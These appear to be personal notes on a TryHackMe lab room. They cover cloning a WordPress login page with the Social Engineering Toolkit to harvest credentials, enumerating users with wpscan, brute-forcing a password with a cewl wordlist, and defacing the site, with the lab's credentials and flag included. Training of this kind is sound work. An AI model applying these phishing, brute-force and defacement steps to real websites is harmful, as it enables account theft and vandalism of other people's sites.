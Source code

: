 - https://tryhackme.com/room/cyberweek2021

phishing attack and hack a Wordpress Content Management System

- defacing a website

Start Machine

```
echo "10.10.63.57 repairshop.sbrc" >> /etc/hosts
echo "127.0.0.1 fonts.googleapis.com" >> /etc/hosts


```

Often hackers will create fake emails pretending to be a bank or online retailer asking users to click on a link and log into their account. The link will lead to a website that looks just like the genuine one but it's actually a fake, owned by the hacker and used to simply trick the victim into giving up their user credentials.

clone a website and create your own spoofed version using a tool called the Social Engineering Toolkit.

- https://github.com/trustedsec/social-engineer-toolkit

```
http://repairshop.sbrc

sed -i 's/WEB_PORT=80/WEB_PORT=100/g' /etc/setoolkit/set.config

settoolkit 

2 = Penetration Testing (Fast Track)/ 1= Microsoft SQL Bruter

1 = Social Engineering Attack
	2 = website attack vectors
		3 = credential harvester attack method
			2 = site cloner

127.0.0.1
http://repairshop.sbrc/wp-login.php

IF success = browser: 127.0.0.1:100 (see a Wordpress logo and signin)
type in random username and password

it captured:
fake@fake.com 
pwd= w0rdpr3ss

next step would be a phishing attack to get target to click on link
```

The only surefire way to make sure the website that we've been linked to is safe is to inspect the URL carefully, which can be difficult. A better idea is not to rely on links that have been sent to you but instead navigate to the site independently. So if you get an email from a service provider saying to login, access the site through a google search instead.


Wordpress vulnerabilities:

- human error = weak passwords, susceptible to social engineering
- vulnerabilities in software = out of date software
- wordpress plugins


hacker would try to see if `/wp-login.php` exists

```
repairshop.sbrc/?page_id=24   when clicked contact

phone number 08081 570087
```

  
When enumerating Wordpress, hackers will often use a tool called [wpscan](https://wpscan.com/wordpress-security-scanner). This tool enumerates a variety of things on a Wordpress site, including users, plugins, version numbers, themes, and many more.

```
wpscan --url http://repairshop.sbrc --no-update -e u

user found: theo

time to get a password, this is a IT company so not likely default password
ise cewl to scan for possible passwords

cewl http://repairshop.sbrc > wordlist

wpscan --url http://repairshop.sbrc -U theo -P wordlist

[SUCCESS] theo / Inverkeithing

http://repairshop.sbrc/wp-login.php
theo / Inverkeithing


Dashboard > Pages > Home -edit
YOU BEEN HACKED! 
HACKED BY --

10.10.63.57:9999

flag: SBRC{ODhiOTQ3ZTk0NzJhMWI1NTE5MGUyY2Vj}


```